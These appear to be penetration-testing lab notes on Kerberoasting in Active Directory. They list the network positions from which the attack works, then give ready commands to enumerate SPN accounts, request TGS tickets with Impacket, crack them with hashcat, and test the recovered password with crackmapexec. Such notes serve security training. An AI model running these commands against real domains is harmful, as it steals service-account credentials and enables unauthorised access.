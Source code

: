 
#### Possible Cases

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

Listing SPN Accounts
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

Request All TGS Tickets (-outputfile sqldev_tgs)
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

Request TGS Ticket For A Specific User (-outputfile sqldev_tgs)
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

Cracking TGS Tickets
```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

Auth Testing
```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
